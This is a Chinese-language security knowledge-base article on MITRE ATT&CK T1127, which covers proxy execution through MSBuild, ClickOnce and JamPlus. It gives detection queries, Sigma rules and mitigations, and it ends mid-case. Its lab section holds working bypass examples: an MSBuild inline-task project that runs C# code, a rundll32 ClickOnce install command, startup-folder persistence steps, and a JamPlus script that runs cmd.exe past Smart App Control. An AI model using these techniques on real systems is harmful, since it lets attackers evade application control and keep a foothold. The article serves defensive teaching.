

# 受信任的开发者实用程序代理执行 (T1127)

## 一句话通俗理解

攻击者像穿着微软工装的"伪装维修工"，借助 Visual Studio、MSBuild、ClickOnce 这类被系统信任的开发工具来运行恶意代码——门卫看到工装就放行，根本不查工具箱里装的是什么。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 滥用被数字签名、被应用程序控制策略信任的开发者工具（MSBuild、ClickOnce、JamPlus 等）代理执行任意代码 |
| 为什么危险？ | 恶意代码披着微软签名的外衣运行，传统应用控制（AppLocker / WDAC / Smart App Control）难以分辨善恶；攻击者无需提权即可部署 |
| 谁需要关心？ | Windows 系统管理员、应用控制策略制定者、SOC 分析师、EDR 研发人员、开发者 |
| 你的第一步防御 | 在不需要开发工具的生产系统中移除或阻断 MSBuild.exe、dfsvc.exe、JamPlus.exe；WDAC 推荐阻断规则覆盖这些工具 |
| 如果只做一件事 | 监控 MSBuild.exe / dfsvc.exe / JamPlus.exe 的执行上下文，识别其是否派生可疑子进程（PowerShell、cmd、rundll32）或外联网络 |

## 难度等级

⭐⭐⭐ 高级（需要深入的技术知识和实践）

受信任的开发者实用程序代理执行属于高级隐蔽+执行双重战术技术，原因在于：

- 攻击者需要熟悉 .NET 运行时、MSBuild 项目文件格式、ClickOnce 部署模型以及构建系统的工作原理
- 不同子技术对应不同的攻击面（项目文件内联任务、.appref-ms 部署清单、.jam 构建脚本），选择合适工具需要对目标环境的深入侦察
- 防御方若不了解这些工具的"开发态合法行为"与"被滥用态异常行为"的差异，几乎无法做出准确判别
- 该技术能直接绕过 Smart App Control、AppLocker、WDAC 等基于签名或路径的现代应用控制方案——因为这些工具本身正是被信任的签名对象

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows 应用控制机制（AppLocker / WDAC / Smart App Control）的基本原理
- [ ] .NET Framework 与 .NET Core 运行时架构
- [ ] MSBuild 项目文件（.csproj / .vbproj / .proj）XML 格式与内联任务（Inline Task）机制
- [ ] ClickOnce 部署模型（.application / .appref-ms 清单、dfsvc.exe 部署服务）
- [ ] 代码签名验证流程（Authenticode、SmartScreen 信誉）
- [ ] Sysmon 日志事件模型（Event ID 1/7/11/22 等）

## 技术描述

受信任的开发者实用程序代理执行（T1127）是 MITRE ATT&CK 框架中**同时属于隐蔽（TA0005）与执行（TA0002）两个战术**的技术。攻击者利用 Windows 系统中预装的、被微软数字签名的开发者工具（如 MSBuild.exe、ClickOnce 部署服务 dfsvc.exe、JamPlus 构建工具等）来代理执行恶意代码——这些工具本身具备运行任意代码的合法能力（编译、加载、执行），且因其签名状态被应用程序控制方案默认放行，攻击者借此"借壳执行"，让恶意载荷披上可信进程的外衣。

**通俗解释：**

想象一栋高级写字楼，门卫只看工牌放行——凡是穿着微软员工服、挂着微软工牌的人都可以自由进出。攻击者发现 MSBuild、ClickOnce 这些"微软员工"每天进出大楼时，门卫从不检查他们手里提的箱子装的是什么。于是攻击者伪装成这些"微软员工"（实际上就是直接调用这些工具），把恶意代码装进他们的"工具箱"（项目文件、部署清单、构建脚本），让这些被信任的工具替自己把恶意代码"运"进系统执行。

**关键转折点：** 这种攻击之所以奏效，根本原因不在于工具本身有漏洞，而在于现代应用控制方案的"信任模型"存在固有矛盾——开发者工具必须能执行任意代码（否则无法完成编译任务），但"被信任的工具能执行任意代码"恰恰是攻击者梦寐以求的能力。Smart App Control、AppLocker、WDAC 等方案若要允许开发团队正常工作，就必须放行 MSBuild.exe、dfsvc.exe 等工具；而一旦放行，攻击者就能通过这些工具绕过整个应用控制体系。这种"信誉劫持"（Reputation Hijacking）模式在 2024 年 Elastic 安全实验室发布的《Dismantling Smart App Control》研究报告中得到了系统性的揭露。

**技术原理（按工具分类）：**

### 一、MSBuild 内联任务代理执行（T1127.001）

MSBuild.exe（Microsoft Build Engine）是 Visual Studio 的核心构建平台，处理 XML 格式的项目文件。.NET 4.0 引入的"内联任务"（Inline Task）能力允许开发者将 C# 或 Visual Basic 代码直接嵌入 XML 项目文件的 `<UsingTask>` 元素中——MSBuild 在编译时会自动编译并执行这些代码。攻击者构造一个看似合法的 `.csproj` 或 `.proj` 文件，将 C# 恶意代码嵌入 `<Task>` 元素，调用 `MSBuild.exe malicious.proj` 即可让恶意代码在 MSBuild.exe 进程上下文中执行。由于 MSBuild.exe 是微软签名二进制，应用控制策略通常将其列入白名单。

### 二、ClickOnce 部署代理执行（T1127.002）

ClickOnce 是 .NET 的自更新部署技术，通过 `.application` 与 `.appref-ms` 清单文件描述部署信息，由 dfsvc.exe（Deployment Service）负责安装、启动与更新。ClickOnce 应用默认以受限权限运行，安装无需管理员权限，使其成为低权限用户场景下的理想执行通道。攻击者可以构造恶意的 ClickOnce 应用，通过钓鱼网站引诱用户点击安装（配合 T1204 用户执行），或通过 `rundll32.exe dfshim.dll,ShOpenVerbApplication` 命令行触发，或将 `.appref-ms` 文件投递到目标用户的启动文件夹（配合 T1547.001 注册表运行键/启动文件夹）实现持久化。

### 三、JamPlus 构建脚本代理执行（T1127.003）

JamPlus 是一款开源的代码与数据构建系统工具，可与多种编译器协同工作，并能在 Visual Studio 等代码编辑器中生成工作区。攻击者通过构造恶意的 `.jam` 脚本文件描述"构建过程"，调用 `JamPlus.exe malicious.jam` 即可执行任意脚本逻辑。由于 JamPlus 同样是被系统信任的开发者工具，其执行能绕过 Smart App Control 等基于信誉的应用控制方案。这是 ATT&CK v19 中较新加入的子技术（2025 年 3 月创建），随着 Smart App Control 在 Windows 11 上的普及，JamPlus 滥用案例显著增加。

**用途与影响：**

T1127 是 APT 组织与红队在面对部署了应用控制的现代 Windows 环境时的**首选绕过技术之一**。它的价值体现在三个层面：**应用控制绕过**（被信任的工具直接放行，无需提权或漏洞利用）、**双重战术覆盖**（既达成"执行"目的，又通过借壳合法进程实现"隐蔽"）、**与持久化无缝衔接**（ClickOnce 可结合启动文件夹实现长期驻留）。Casey Smith（@subTee）在 2016-2017 年间系统性地披露了 MSBuild、WinDbg、CDB 等一系列 LOLBins 的滥用方式，奠定了这一技术类别的研究基础，T1127 的 MITRE 创建时间（2017 年 5 月 31 日）正对应这一研究浪潮。

## 真实攻击流程

### 典型攻击流程

```
侦察目标环境的应用控制策略 --> 选择被信任的开发者工具 --> 构造包含恶意载荷的项目/清单/脚本文件 --> 调用开发者工具代理执行 --> 恶意代码在签名进程上下文运行 --> 持久化与横向移动
```



**步骤详解：**

1. **侦察目标环境的应用控制策略**
   - 通俗描述：攻击者像小偷踩点，先确认目标"门卫查什么、放行什么"
   - 技术细节：通过 `Get-AppLockerPolicy` 查询 AppLocker 规则、检查 WDAC CIM 策略文件、检测 Smart App Control 启用状态（注册表 `HKLM\SYSTEM\CurrentControlSet\Control\CI\Policy` 与 `HKLM\SYSTEM\CurrentControlSet\Control\CI\TenantPolicies`）
   - 常用工具：PowerShell、PolicyFileParser、自定义枚举脚本

2. **选择被信任的开发者工具**
   - 通俗描述：从"白名单工牌"中挑一个最合适的伪装对象
   - 技术细节：评估 MSBuild.exe、dfsvc.exe、JamPlus.exe 是否在策略放行列表中，选择既能执行任意代码又不会触发告警的工具
   - 常用工具：LOLBAS 项目知识库、自定义枚举脚本

3. **构造包含恶意载荷的工具输入文件**
   - 通俗描述：把"恶意私货"装进工具的"合法包装"里
   - 技术细节：MSBuild 用 `<UsingTask><Code>` 嵌入 C# 代码；ClickOnce 用 `.application` 清单描述恶意 .NET 程序集；JamPlus 用 `.jam` 脚本描述"构建"逻辑
   - 常用工具：Cobalt Strike Aggressor Script、自定义 Payload 生成器、MSFvenom

4. **调用开发者工具代理执行**
   - 通俗描述：让被信任的工具替自己"送货上门"
   - 技术细节：通过命令行 `msbuild.exe payload.proj`、`rundll32.exe dfshim.dll,ShOpenVerbApplication payload.application`、`jam.exe payload.jam` 触发执行
   - 常用工具：cmd.exe、powershell.exe、计划任务

5. **恶意代码在签名进程上下文执行**
   - 通俗描述：恶意代码现在"穿着微软工装"，门卫完全看不见
   - 技术细节：MSBuild.exe 加载并 JIT 编译内联 C# 代码到内存执行；dfsvc.exe 启动 ClickOnce 应用作为其子进程；JamPlus.exe 解释执行 .jam 脚本中的命令
   - 常用工具：Cobalt Strike Beacon、Mimikatz、自定义 .NET 加载器

6. **持久化与横向移动**
   - 通俗描述：站稳脚跟后开始扩张
   - 技术细节：将 `.appref-ms` 投递到启动文件夹实现持久化；通过继承的用户权限访问网络共享；用 WMI / PsExec 横向移动
   - 常用工具：Cobalt Strike、Impacket、PowerShell Empire

## 子技术概览

**该技术共有 3 个子技术：**

| 子技术ID | 中文名称 | 一句话理解 | 主要平台 |
|----------|----------|------------|----------|
| [T1127.001](./T1127/T1127.001-MSBuild.md) | MSBuild | 滥用 MSBuild.exe 的内联任务能力，在 XML 项目文件中嵌入 C# / VB 代码并执行 | Windows |
| [T1127.002](./T1127/T1127.002-ClickOnce.md) | ClickOnce | 滥用 ClickOnce 部署技术（.appref-ms / .application 清单）通过 dfsvc.exe 代理执行恶意 .NET 应用 | Windows |
| [T1127.003](./T1127/T1127.003-JamPlus.md) | JamPlus | 滥用 JamPlus 构建工具，通过恶意 .jam 脚本文件代理执行任意命令绕过 Smart App Control | Windows |

## 检测建议

**用人话说：** T1127 的检测核心是"行为链（Behavior-Chain）分析"——单看 MSBuild.exe 执行本身是合法的开发行为，单看它派生 PowerShell 也可以是构建脚本的一部分，但如果串联起来看：MSBuild.exe 在非开发上下文中执行 + 派生 powershell/cmd/rundll32 + 加载未签名 DLL + 写入并执行新 PE + 立即外联网络，这一连串行为组合就高度可疑。MITRE ATT&CK v19 中为此技术专门定义了检测策略 DET0172（行为链、平台感知检测策略）与分析编号 AN0488，明确指出了这条行为链的判定要素。

### 网络层检测

**检测方法：** 监控 MSBuild.exe / dfsvc.exe / JamPlus.exe 进程在非开发时段发起的出站网络连接。许多通过开发者工具代理执行的载荷（如 Cobalt Strike Beacon、PlugX）在执行后会立即向 C2 服务器回连，可通过 NetFlow / Zeek 流量基线异常发现。重点关注：MSBuild.exe 直连外网 IP（非 NuGet 包源）、dfsvc.exe 从非 Microsoft 域名拉取 .application 清单、JamPlus.exe 触发非构建相关的外联。

### 主机层检测

**Windows事件ID：**
- Sysmon Event ID 1：进程创建（**核心**——监控 MSBuild.exe / dfsvc.exe / JamPlus.exe 的父进程与命令行参数，识别非开发上下文执行）
- Sysmon Event ID 7：Image Loaded（监控 MSBuild.exe 加载未签名 DLL 或从用户可写路径加载模块）
- Sysmon Event ID 11：FileCreate（监控 .proj / .application / .appref-ms / .jam 文件在非标准目录的创建）
- Sysmon Event ID 22：DNS Query（监控 MSBuild.exe / dfsvc.exe 发起的可疑 DNS 解析）
- Event ID 4688：进程创建（Windows 安全审计，配合命令行审计）
- Event ID 4104：PowerShell 模块日志（若 MSBuild 派生 PowerShell，记录其脚本内容）

**具体命令示例：**
```powershell
# 检测 MSBuild.exe 在非开发目录执行（Sysmon Event ID 1）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'MSBuild.exe' -and $_.Message -notmatch 'Program Files\\Microsoft Visual Studio|Program Files\\dotnet|Windows\\Microsoft.NET' } |
    Select-Object TimeCreated, Message -First 50

# 检测 ClickOnce dfsvc.exe 派生可疑子进程
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'ParentImage:.*dfsvc\.exe' } |
    Select-Object TimeCreated, Message -First 50

# 检测 MSBuild.exe 的可疑命令行参数（Base64 / 远程路径 / 用户目录 .proj）
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} |
    Where-Object { $_.Message -match 'msbuild\.exe' -and ($_.Message -match 'Users\\|Temp\\|AppData\\|\\\\' -or $_.Message -match 'base64|encodedcommand') } |
    Select-Object TimeCreated, Message -First 50

# 检测 .appref-ms / .application 文件在启动文件夹的创建（持久化）
Get-ChildItem -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -Filter "*.appref-ms" -ErrorAction SilentlyContinue
Get-ChildItem -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -Filter "*.application" -ErrorAction SilentlyContinue
```

### 应用层检测

**检测要点：**

1. **开发者工具执行上下文异常检测（DET0172 / AN0488 核心要素）**
   - 日志来源：Sysmon Event ID 1、Event ID 4688
   - 关注字段：父进程映像、命令行参数、当前工作目录
   - 异常特征：MSBuild.exe 父进程为 Office 应用、浏览器、邮件客户端（非 Visual Studio / devenv.exe / MSBuild.exe 自身）；命令行参数包含用户目录、临时目录、UNC 路径下的 `.proj` / `.csproj` 文件

2. **可疑子进程派生检测（DET0172 / AN0488 核心要素）**
   - 日志来源：Sysmon Event ID 1
   - 关注字段：父进程映像、子进程映像
   - 异常特征：MSBuild.exe / dfsvc.exe / JamPlus.exe 派生 powershell.exe、cmd.exe、rundll32.exe、regsvr32.exe、wscript.exe、cscript.exe 等高危 LOLBins

3. **未签名模块加载检测**
   - 日志来源：Sysmon Event ID 7
   - 关注字段：Image（加载方）、ImageLoaded（被加载模块）、Signed（签名状态）
   - 异常特征：MSBuild.exe 加载来自 `C:\Users\`、`C:\Temp\`、`C:\ProgramData\` 等用户可写路径的未签名 DLL

4. **新 PE 文件落地即执行检测**
   - 日志来源：Sysmon Event ID 11（FileCreate）+ Event ID 1（Process Create）
   - 关注字段：文件路径、文件哈希、执行进程
   - 异常特征：MSBuild.exe / dfsvc.exe 在用户可写路径写入新的 PE / DLL / 脚本文件，并在短时间内（<60 秒）通过自身或子进程加载执行

5. **网络连接立即发起检测**
   - 日志来源：Sysmon Event ID 22（DNS Query）+ Event ID 3（Network Connect）
   - 关注字段：源进程映像、目标 IP / 域名、连接时间偏移
   - 异常特征：MSBuild.exe / dfsvc.exe / JamPlus.exe 在执行后 5 分钟内发起出站网络连接（且目标非 NuGet.org / Microsoft CDN / Visual Studio Marketplace 等已知开发资源）

6. **ClickOnce 持久化检测**
   - 日志来源：文件系统监控（Sysmon Event ID 11）
   - 关注字段：文件路径、文件扩展名
   - 异常特征：`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\` 目录下出现 `.appref-ms` 或 `.application` 文件

## 检测规则示例

### Sigma规则：检测 MSBuild.exe 可疑执行与子进程派生

```yaml
title: 受信任的开发者实用程序 MSBuild 代理执行可疑行为
id: a1b2c3d4-e5f6-4789-abcd-ef0123456789
status: experimental
description: 检测 MSBuild.exe 在非开发上下文中执行并派生高危子进程的行为，可能表明 T1127.001 MSBuild 代理执行攻击（对应 DET0172 / AN0488）
references:
    - https://attack.mitre.org/techniques/T1127/
    - https://attack.mitre.org/techniques/T1127/001/
    - https://attack.mitre.org/detectionstrategies/DET0172
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_parent:
        EventID: 1
        ParentImage|endswith:
            - '\MSBuild.exe'
    selection_suspicious_child:
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\rundll32.exe'
            - '\regsvr32.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\mshta.exe'
            - '\certutil.exe'
    filter_dev_context:
        ParentImage|contains:
            - '\Program Files\Microsoft Visual Studio\'
            - '\Program Files\dotnet\'
        ParentCommandLine|contains:
            - 'msbuild'
    condition: selection_parent and selection_suspicious_child and not filter_dev_context
falsepositives:
    - 合法的构建脚本在构建过程中调用 PowerShell 或 cmd 子任务（需建立开发环境基线白名单）
    - CI/CD 系统在构建服务器上调用 MSBuild（构建服务器应单独建模）
level: high
tags:
    - attack.t1127
    - attack.t1127.001
    - attack.defense_evasion
    - attack.execution
```

### Sigma规则：检测 ClickOnce 滥用与启动文件夹持久化

```yaml
title: ClickOnce 应用启动文件夹持久化检测
id: b2c3d4e5-f6a7-489b-bcde-f01234567890
status: experimental
description: 检测 .appref-ms 或 .application 文件被投递到 Windows 启动文件夹的行为，可能表明 T1127.002 ClickOnce 滥用与 T1547.001 启动文件夹持久化
references:
    - https://attack.mitre.org/techniques/T1127/002/
    - https://attack.mitre.org/techniques/T1547/001/
    - https://attack.mitre.org/detectionstrategies/DET0191
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_file_create:
        EventID: 11
        TargetFilename|contains:
            - '\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
        TargetFilename|endswith:
            - '.appref-ms'
            - '.application'
    condition: selection_file_create
falsepositives:
    - 用户手动将合法 ClickOnce 应用快捷方式放入启动文件夹（应通过应用白名单建立基线）
level: high
tags:
    - attack.t1127
    - attack.t1127.002
    - attack.t1547
    - attack.t1547.001
    - attack.persistence
    - attack.defense_evasion
```

### Sigma规则：检测 JamPlus.exe 异常执行

```yaml
title: JamPlus 构建工具异常执行检测
id: c3d4e5f6-a7b8-489c-cdef-0123456789a1
status: experimental
description: 检测 JamPlus.exe 在非开发环境中执行或加载用户可写路径下的 .jam 脚本，可能表明 T1127.003 JamPlus 代理执行攻击（绕过 Smart App Control）
references:
    - https://attack.mitre.org/techniques/T1127/003/
    - https://attack.mitre.org/detectionstrategies/DET0585
    - https://www.elastic.co/security-labs/dismantling-smart-app-control
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_jamplus_exec:
        EventID: 1
        Image|endswith:
            - '\jam.exe'
            - '\jamplus.exe'
    selection_suspicious_path:
        CommandLine|contains:
            - '\Users\'
            - '\Temp\'
            - '\AppData\'
            - '\\\\'
    condition: selection_jamplus_exec and selection_suspicious_path
falsepositives:
    - 合法的游戏开发或构建系统使用 JamPlus（应建立开发团队基线）
level: high
tags:
    - attack.t1127
    - attack.t1127.003
    - attack.defense_evasion
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 在非开发系统中移除或阻断开发者工具

**具体实施步骤：**
1. 评估企业终端的 MSBuild.exe / dfsvc.exe / JamPlus.exe 使用需求，对非开发岗位终端通过 WDAC 策略阻断这些工具的执行
2. 应用微软推荐的 WDAC 阻断规则，显式拒绝 `msbuild.exe`、`dfsvc.exe`、`dfshim.dll` 在非开发上下文中的执行
3. 通过组策略禁用 ClickOnce 的 Internet 安装提示：将注册表 `HKLM\SOFTWARE\Microsoft\.NETFramework\Security\TrustManager\PromptingLevel` 下的 `Internet` 值设为 `Disabled`
4. 对 Smart App Control 启用的 Windows 11 终端，审计 JamPlus.exe 等较少见开发者工具的存在情况，无业务需求即移除

### 优先级2：重要措施

**措施名称：** 强化应用控制策略，针对开发者工具建立上下文白名单

**具体实施步骤：**
1. WDAC 策略中不仅基于文件名/签名放行 MSBuild.exe，还需结合父进程、调用方（如仅允许 devenv.exe / dotnet.exe / CI/CD Agent 调用 MSBuild.exe）
2. 启用 AppLocker 的 DLL 规则集合，监控并阻断 MSBuild.exe 加载非系统目录下的未签名 DLL
3. 配置 Sysmon 的配置文件，专门记录 MSBuild.exe / dfsvc.exe / JamPlus.exe 的执行、子进程派生、模块加载、网络连接事件
4. 在 EDR 中建立"开发者工具执行上下文基线"，对偏离基线的执行场景自动告警

### 优先级3：建议措施

**措施名称：** 强化代码签名验证与 ClickOnce 信任管理

**具体实施步骤：**
1. 强制 ClickOnce 应用必须使用受信任的代码签名证书签名，未签名或自签名应用一律拒绝安装
2. 通过注册表 `HKLM\SOFTWARE\Microsoft\.NETFramework\Security\TrustManager\PromptingLevel` 将 `Internet`、`TrustedSites` 设为 `Disabled`，仅允许 `LocalIntranet` 与 `MyComputer` 的 ClickOnce 安装提示
3. 对 MSBuild 内联任务功能进行审计，识别项目文件中的 `<UsingTask><Code>` 元素，建立"合法构建脚本基线"
4. 教育开发者识别钓鱼式 ClickOnce 安装弹窗，避免点击不可信来源的 `.application` / `.appref-ms` 文件

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1042 | 禁用或移除功能或程序 | 适用 | 在不需要开发工具的生产系统中移除 MSBuild.exe、ClickOnce、JamPlus |
| M1038 | 执行防护 | 适用 | 通过 WDAC / AppLocker 阻断未使用的开发者工具，并配置上下文敏感的执行规则 |
| M1021 | 限制基于 Web 的内容 | 适用 | 禁用从 Internet 安装 ClickOnce 应用，限制远程 .proj / .jam 文件加载 |
| M1045 | 代码签名 | 部分适用 | 强制 ClickOnce 应用代码签名验证，对未签名部署清单拒绝执行 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。实验产物（恶意 .proj / .application / .jam 文件）仅可用于教育目的，禁止分发或用于攻击。

### 实验环境准备

**所需工具：**
- Windows 10 / 11 虚拟机（建议启用 Sysmon 日志，并配置开发者工具相关事件采集）
- .NET Framework 4.x（MSBuild 与 ClickOnce 依赖）
- Visual Studio Build Tools 2019/2022（提供 MSBuild.exe，或使用 .NET SDK 自带版本）
- 一个简单的测试载荷（如弹出 calc.exe 的 C# 代码）
- Sysinternals Process Monitor（ProcMon）

### 实验1：MSBuild 内联任务代理执行（初级）

**实验目标：** 理解 T1127.001 MSBuild 内联任务的工作原理，观察 MSBuild.exe 如何编译并执行嵌入在 XML 项目文件中的 C# 代码

**实验步骤：**
1. 在实验虚拟机中确认 `MSBuild.exe` 位置（如 `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe`）
2. 创建一个测试项目文件 `payload.proj`，包含内联任务弹出 calc.exe：
   ```xml
   <Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
     <UsingTask TaskName="DemoTask" TaskFactory="CodeTaskFactory"
                AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll">
       <Task>
         <Code Type="Method" Language="cs">
           <![CDATA[
           public override bool Execute() {
               System.Diagnostics.Process.Start("calc.exe");
               return true;
           }
           ]]>
         </Code>
       </Task>
     </UsingTask>
     <Target Name="DemoTarget">
       <DemoTask />
     </Target>
   </Project>
   ```
3. 执行命令：`MSBuild.exe payload.proj`
4. 观察 calc.exe 是否弹出（注意：calc.exe 的父进程是 MSBuild.exe，而非默认的 explorer.exe）
5. 通过 ProcMon 查看 MSBuild.exe 的进程树与文件访问行为
6. 检查 Sysmon Event ID 1，确认父进程关系被记录

**预期结果：** calc.exe 弹出，其父进程为 MSBuild.exe，证明内联 C# 代码被编译并执行

**学习要点：** 理解 MSBuild 内联任务能力如何被滥用——任何能调用 MSBuild.exe 的攻击者都能执行任意 C# 代码，且代码在微软签名的 MSBuild.exe 进程上下文中运行

### 实验2：ClickOnce 部署与应用启动文件夹持久化（中级）

**实验目标：** 理解 T1127.002 ClickOnce 滥用，掌握通过 `.appref-ms` 文件实现持久化的方法

**实验步骤：**
1. 在 Visual Studio 中创建一个简单的 ClickOnce Windows Forms 应用（或使用 mage.exe / mageui.exe 命令行生成清单）
2. 将应用部署到本地 IIS 或文件共享，生成 `.application` 与 `.appref-ms` 文件
3. 通过命令行触发 ClickOnce 应用安装：`rundll32.exe dfshim.dll,ShOpenVerbApplication http://test-server/payload.application`
4. 观察 dfsvc.exe 进程启动并安装应用，记录其子进程
5. 将 `.appref-ms` 文件复制到 `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\`
6. 重启虚拟机或重新登录，观察 ClickOnce 应用是否随启动文件夹自动执行
7. 清理：从启动文件夹删除 `.appref-ms`，卸载 ClickOnce 应用

**预期结果：** ClickOnce 应用通过 rundll32 触发安装，并在重启后从启动文件夹自动启动

**学习要点：** 理解 ClickOnce 的低权限部署特性如何被滥用，以及如何通过启动文件夹实现持久化

### 实验3：JamPlus 滥用绕过 Smart App Control（高级，可选）

**实验目标：** 理解 T1127.003 JamPlus 滥用方式，观察其如何绕过基于信誉的应用控制

**实验步骤：**
1. 从 JamPlus 官方 GitHub 仓库（https://jamplus.github.io/jamplus/）下载 JamPlus 二进制
2. 创建一个简单的测试 `.jam` 脚本文件，描述"构建"过程但实际执行 calc.exe：
   ```
   actions NotFile calc_test
   {
       cmd.exe /c calc.exe
   }
   ```
3. 启用 Windows 11 的 Smart App Control（设置 → 隐私和安全性 → Windows 安全中心 → 应用和浏览器控制 → 智能应用控制）
4. 尝试直接运行一个未签名的 test.exe（应被 Smart App Control 阻断）
5. 通过 JamPlus.exe 执行 `.jam` 脚本：`jam.exe -f payload.jam calc_test`
6. 观察 calc.exe 是否成功执行（绕过 Smart App Control）
7. 清理：关闭 Smart App Control（注意：Smart App Control 一旦关闭无法重新启用，需谨慎操作或使用快照恢复）

**预期结果：** 直接运行的未签名 exe 被 Smart App Control 阻断，但通过 JamPlus 代理执行的 calc.exe 成功弹出

**学习要点：** 理解"信誉劫持"的本质——Smart App Control 信任被签名的 JamPlus.exe，但无法判断 JamPlus 执行的脚本是否恶意

## 真实案例

### 案例1：Frankenstein 攻击活动滥用 MSBuild 执行恶意代码（2019）

- **时间**：2019 年
- **目标**：全球多个行业组织
- **攻击组织**：Frankenstein 攻击活动（未明确归因，疑似多个 APT 组织共用工具集）
- **手法**：攻击者在该攻击活动中使用 MSBuild 执行攻击者构造的恶意项目文件。该攻击活动以"缝合怪"著称——攻击者将多个开源工具（如 Cobalt Strike、PsExec、Empire）和合法系统工具组合成攻击链，利用 MSBuild.exe 的签名状态绕过目标组织部署的应用控制方案。MSBuild 在执行内联任务时将 Shellcode 加载到内存，部署 Cobalt Strike Beacon 后续载荷。
- **影响**：多家组织被入侵，攻击者在网络中长期潜伏
- **参考链接**：[MITRE - Frankenstein Campaign C0001](https://attack.mitre.org/campaigns/C0001/)、[Talos - Frankenstein Campaign](https://blog.talosintelligence.com/2019/06/frankenstein-campaign.html)

### 案例2：MirrorFace（APT 组织）Operation AkaiRyū 攻击滥用 MSBuild 编译注入工具（2024-2025）

- **时间**：2024 年-2025 年
- **目标**：日本与欧洲组织（包括 2025 年大阪世博会相关目标）
- **攻击组织**：MirrorFace（G1054，疑似中国背景 APT 组织）
- **手法**：在 Operation AkaiRyū 攻击活动中，MirrorFace 使用 MSBuild 编译并执行其自研的注入工具 FaceXInjector。攻击者通过钓鱼邮件投递包含恶意内联任务的 MSBuild 项目文件，目标用户打开附件后 MSBuild.exe 自动编译 C# 代码并执行 FaceXInjector，将 ANEL 后门注入到合法进程中。MSBuild 在此场景下既是"执行代理"（绕过应用控制），也是"编译器"（将源代码编译为可注入的二进制）。
- **影响**：日本政府机构、研究机构、欧洲组织被入侵，ANEL 后门时隔多年重新被部署
- **参考链接**：[MITRE - Operation AkaiRyū C0060](https://attack.mitre.org/campaigns/C0060/)、[ESET - Operation AkaiRyū](https://www.welivesecurity.com/en/eset-research/operation-akairyu-mirrorface-invites-europe-expo-2025-revives-anel-backdoor/)

### 案例3：PlugX 通过 MSBuild 加载 Shellcode 绕过应用控制（2017）

- **时间**：2017 年
- **目标**：全球政府机构、外交组织、NGO
- **攻击组织**：使用 PlugX（S0013）的多个 APT 组织
